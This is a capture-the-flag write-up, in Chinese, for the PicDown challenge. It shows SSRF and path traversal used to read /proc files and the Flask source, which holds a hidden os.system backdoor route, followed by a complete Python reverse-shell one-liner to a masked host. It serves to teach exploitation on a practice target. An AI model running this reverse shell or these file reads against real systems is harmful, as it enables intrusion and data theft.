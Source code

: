 # \[网鼎杯 2020 白虎组]PicDown

## \[网鼎杯 2020 白虎组]PicDown

## 考点

* SSRF
* 任意文件读取
* Flask代码审计

## wp

除了一个框啥都没有，F12看到了请求的参数`/page?url=`

![](<../../.gitbook/assets/image (16) (1).png>)

一开始以为PicDown是下载图片，试了一下发现就是SSRF

![](<../../.gitbook/assets/image (18) (1) (1) (1).png>)

尝试目录穿越文件读取，最后有个app用户

![](<../../.gitbook/assets/image (20) (1) (1).png>)

尝试读取flag，发现可以直接读`http://b7ce4ee5-2c98-41db-beae-1955d540e6bf.node4.buuoj.cn:81/page?url=/flag`访问得到一个图片，应该是非预期了。

![](<../../.gitbook/assets/image (17) (1) (1).png>)

读取`/proc/self/cmdline`文件，得到`python2 app.py`

访问`/proc/self/environ`得到如下

```
MAIL=/var/mail/app
USER=app
HOME=/home/app
LOGNAME=app
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
SHELL=/bin/sh
PWD=/app
```

访问`app.py`，直接访问?url=app.py

```python
from flask import Flask, Response
from flask import render_template
from flask import request
import os
import urllib

app = Flask(__name__)

SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)


@app.route('/')
def index():
    return render_template('search.html')


@app.route('/page')
def page():
    url = request.args.get("url")
    try:
        if not url.lower().startswith("file"):
            res = urllib.urlopen(url)
            value = res.read()
            response = Response(value, mimetype='application/octet-stream')
            response.headers['Content-Disposition'] = 'attachment; filename=beautiful.jpg'
            return response
        else:
            value = "HACK ERROR!"
    except:
        value = "SOMETHING WRONG!"
    return render_template('search.html', res=value)


@app.route('/no_one_know_the_manager')
def manager():
    key = request.args.get("key")
    print(SECRET_KEY)
    if key == SECRET_KEY:
        shell = request.args.get("shell")
        os.system(shell)
        res = "ok"
    else:
        res = "Wrong Key!"

    return res


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

可以看到`app.py`在读取`/tmp/secret.txt`后把它删除，然后我们要在`/no_one_know_the_manager`传递一个和`secret.txt`内容相同的字符串才能getshell。虽然它删除了文件，但是是有读取缓存的，在`/proc/pid/fd/`中，一个一个试不难试出来在`/proc/self/fd/3`

![](<../../.gitbook/assets/image (19) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (6) (1) (1) (1).png>)

由于无回显，这又是用的python2，所以直接用python反弹shell即可

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("****",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](<../../.gitbook/assets/image (8) (1) (1).png>)

## 小结

1. 在读取文件时，可以考虑的文件`/proc/self/cmdline`，`/proc/self/environ`，`/proc/cmdline`，`/etc/hosts`
